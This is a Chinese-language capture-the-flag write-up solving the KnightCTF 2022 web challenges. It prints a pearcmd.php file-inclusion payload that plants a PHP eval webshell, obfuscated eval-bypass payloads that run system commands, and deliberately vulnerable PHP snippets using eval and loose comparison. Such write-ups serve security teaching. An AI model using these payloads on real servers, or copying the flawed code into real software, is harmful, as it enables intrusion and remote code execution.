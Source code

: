 ﻿---
title: KnightCTF WEB
categories: 赛题wp
---

# 前言
不难，就是fuzz和脑洞有点多

# Do Something Special
按钮点击发现url转到 `/gr@b_y#ur_fl@g_h3r3!` ，`#` 明显不对，将其urlencode转码为%23访问出现flag 

Flag：KCTF{Sp3cial_characters_need_t0_get_Url_enc0ded}

<!--more-->

# My PHP Site
![](https://img-blog.csdnimg.cn/a860cb15d796496cb9830674f13b2cb1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

文件包含，可以利用伪协议读源码，也可以直接打pearcmd.php来getshell

payload
```
/?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/shell.php+-d+man_dir=<?eval($_POST[0]);?>+-s+
```
再去包含执行命令

![](https://img-blog.csdnimg.cn/ddee8de58eaa412baab3f6618d1ea89d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

FLAG: KCTF{L0C4L_F1L3_1ncLu710n}

# Obsfuscation Isn't Enough
查看html发现jsfuck，解密发现 150484514b6eeb1d99da836d95f6671d.php

直接访问php文件，FLAG: KCTF{0bfuscat3d_J4v4Scr1pt_aka_JSFuck}

# Zero is not the limit
Hint: /user/
开始返回一堆json

![](https://img-blog.csdnimg.cn/88c8916beed548859e1bc4b1a290dffe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

/user/ 下对应每一个用户，访问-1出flag

FLAG: KCTF{tHeRe_1s_n0_l1m1t}

# Find Pass Code – 1
发现注释：
Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param

访问：url/?source得到源码
```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}
?>
```
数组bypass，Post: pass_code[]=1

FLAG: KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}

# Most Secure Calculator-1
![](https://img-blog.csdnimg.cn/813219e2d6ac4126a779ac24bbff0433.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

源码
```php
<?php
if (isset($_POST["equation"]) && !is_array($_POST["equation"])) {
if (empty($_POST["equation"])) {
echo "Please enter some eqation.";
} else {
if (strlen($_POST["equation"]) >= 25) {
	echo "Oow ! You have entered an equation that is too big for me.";
} else {
	echo "<h1> Result : <br>";
	eval("echo " . $_POST["equation"] . ";");
	echo "</h1>";
	}}}
?>
```
直接塞到eval
FLAG：KCTF{WaS_mY_cAlCuLaToR_sAfE}

# Find Pass Code - 2
- 魔术hash
- md5

```php
<?php
require "flag.php";
$old_pass_codes = array("0e215962017", "0e730083352", "0e807097110", "0e840922711");
$old_pass_flag = false;
if (isset($_POST["pass_code"]) && !is_array($_POST["pass_code"])) {
    foreach ($old_pass_codes as $old_pass_code) {
        if ($_POST["pass_code"] === $old_pass_code) {
            $old_pass_flag = true;
            break;
        }
    }
    if ($old_pass_flag) {
        echo "Sorry ! It's an old pass code.";
    } else if ($_POST["pass_code"] == md5($_POST["pass_code"])) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}
?>
```

爆破是不可能爆破的，搜集了魔术hash，随便挑个  [魔术hash](https://blog.csdn.net/u013512548/article/details/108213295)
```
0e215962017:0e291242476940776845150308577824
0e730083352:0e870635875304277170259950255928
0e807097110:0e318093639164485566453180786895
0e840922711:00e64922204642369621338070008986
0e1137126905:0e291659922323405260514745084877
0e1284838308:0e708279691820928818722257405159
0e2799298535:0e258310720843549656960157258725
0e3335999050:0e130023719718288785799459522477
0e3519466817:0e094940930906507337180165634011
```

FLAG：KCTF{ShOuD_wE_cOmPaRe_MD5_LiKe_ThAt__Be_SmArT}

# Bypass!! Bypass!! Bypass!!
注释发现
```
<!-- generats auth token -> /api/request/auth_token -->
```

经过尝试bypass 403 失败
```
/api/request/auth_token    Allow: POST, OPTIONS
/      Allow: GET, HEAD, OPTIONS
```
Github搜索得到源码  [bug-bounty-labs](https://github.com/leetCipher/bug-bounty-labs/blob/b5d6323c6514cc3740bd26bb56e8ac042c68ba73/admin-login-bypass/lab/app.py)

添加头部
**X-Authorized-For: 获取的token**

FLAG：KCTF{cOngRatUlaT10Ns_wElCoMe_t0_y0ur_daShBoaRd}

# Most Secure Calculator -2 
只允许字母数字，那就是异或 取反绕过,fuzz以下构造命令

payload
```
(~%8C%86%8C%8B%9A%92)(~%D7%DD%8F%88%9B%DD%D6%C4)
("393480"^"@@@@]]")(("8!4@80!8"^"[@@`^@_").(".").("484"^"@@@"))
"\163\171\163\164\145\155"("\143\141\164\40\146\154\141\147\56\164\170\164")
```
FLAG:  KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}

# Can you be Admin?	
User-Agent: KnightSquad ，接着，Referer: localhost

Jsfuck 发现 Unicode，[Unicode编码解码 (bt.cn)](https://www.bt.cn/tools/unicode.html)

```
F`V,7DIIBn+?CWe@<,q!$?0EpF*DPCA0<oU8RZI/DJ<`sF8
```

然后ascii85解码， [ASCII85解码计算器 ](https://www.jisuan.mobi/pbm3bmHuBN1bbySU.html)

username : tareq ，password : IamKnight

登录后是普通用户，然后返回包cookie返回奇怪字段base64后重新更改为Admin，发包 发现flag

FLAG: KCTF{FiN4LlY_y0u_ar3_4dm1N}

